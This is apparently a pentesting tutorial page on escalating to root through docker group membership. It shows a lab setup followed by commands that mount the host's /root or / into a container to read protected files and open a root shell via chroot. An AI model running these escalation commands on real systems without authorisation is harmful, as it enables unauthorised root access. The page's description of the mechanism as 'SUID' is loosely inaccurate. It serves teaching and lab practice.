 # Docker

There are lots of ways to use docker for privesc and some of them are described in the resources links above. but the first and most used method is based on SUID docker permission which you will face more than the others.

## SUID docker

### To create a vulnerable host

install docker using this:

{% embed url="https://docs.docker.com/engine/install/debian/\#install-using-the-repository" %}

after the installation is completed add a new user for this test and add it to the docker group

#### `adduser test  usermod -aG docker test`

Now ssh to the target with the new user

![](../../../.gitbook/assets/docker.png)

we have access to the docker group

to test this run docker hello-world default image

#### `docker run hello-world`

![](../../../.gitbook/assets/docker2.png)

what just happened was docker client connected to docker daemon and the daemon pulled the "hello-world" image from docker hub. then it created a nre container from that image and ran it. then the daemon streamed the output "Hello from Docker!" to docker client which sent it to the terminal.

we can do this with another image like an ubuntu container:

#### `docker run ubuntu`

one of dockers features is that it can mount a directory from the host system to a directory in the container for quick file grabbing.

#### `docker run -v /root:/mnt ubuntu cat /mnt/flag.txt`

By using the -v flag we specified a volume to mount, in this case the /root directory on the host was mounted to the /mnt directory on the container. Because docker has SUID we were able to mount a root owned directory in our container!

we can get a shell using the same technique combined with the chroot command

#### `docker run -it -v /:/mnt ubuntu chroot /mnt`

![](../../../.gitbook/assets/docker3.png)











































